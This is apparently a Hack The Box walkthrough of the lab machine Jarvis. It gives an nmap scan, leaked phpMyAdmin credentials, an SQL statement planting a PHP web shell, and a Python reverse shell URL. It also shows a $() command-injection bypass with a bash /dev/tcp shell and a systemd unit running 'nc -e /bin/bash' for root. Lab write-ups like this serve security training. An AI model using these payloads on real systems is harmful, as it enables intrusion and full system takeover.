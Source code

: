 # Jarvis (`10.10.10.143`)

## Summary

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `jarvis.htb` to `10.10.10.143`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports jarvis.htb
# Nmap 7.80 scan initiated Fri Nov 13 05:13:38 2020 as: nmap -A -v -p- -Pn -oA allports jarvis.htb
Nmap scan report for jarvis.htb (10.10.10.143)
Host is up (0.040s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/13%OT=22%CT=1%CU=44621%PV=Y%DS=2%DC=T%G=Y%TM=5FAE6A
OS:A6%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=105%TI=Z%CI=Z%TS=8)OPS(O1=M
OS:54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%
OS:O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%
OS:DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=
OS:%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%
OS:IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.002 days (since Fri Nov 13 05:11:35 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   39.52 ms 10.10.14.1
2   39.57 ms jarvis.htb (10.10.10.143)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 13 05:14:46 2020 -- 1 IP address (1 host up) scanned in 68.62 seconds
```

![](img/2020-11-13-06-31-58.png)

User is `DBadmin`

![](img/2020-11-21-23-53-04.png)

![](img/2020-11-22-20-46-16.png)

![](img/2020-11-22-21-01-28.png)

`DBadmin:imissyou` is the credential pair.

![](img/2020-11-22-21-25-33.png)

## Reverse Shell

I follow [this guide](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) to get command execution, by creating a new database and then running the following SQL statement:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/cmd.php" 
```

![](img/2020-11-22-21-47-33.png)

![](img/2020-11-22-21-48-07.png)

![](img/2020-11-22-21-48-31.png)

I now navigate to `http://jarvis.htb/cmd.php?cmd=whoami` and see:

![](img/2020-11-22-21-30-26.png)

I start a new `nc` listener, and go to the following URL: `http://jarvis.htb/cmd.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.27%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27`.

![](img/2020-11-22-21-50-16.png)

## Upgrading Shell

![](img/2020-11-22-21-50-35.png)

## Privilege Escalation to `pepper`

![](img/2020-11-22-23-51-02.png)

This is the exploitable part of the script:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

`$()` command substitution isn't blacklisted.

```bash
www-data@jarvis:/dev/shm$ echo "bash -i >&/dev/tcp/10.10.14.27/443 0>&1" > /dev/shm/shell.sh
www-data@jarvis:/dev/shm$ chmod +x /dev/shm/shell.sh
```

I start another `nc` listener on port 443.

```bash
www-data@jarvis:/dev/shm$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $(bash /dev/shm/shell.sh)
```

![](img/2020-11-23-00-19-59.png)

## Root Privesc

![](img/2020-11-23-04-58-55.png)

```bash
$ cat shell.service
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.27 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target

$ systemctl link /dev/shm/shell.service
$ systemctl start shell
```

![](img/2020-11-23-04-59-08.png)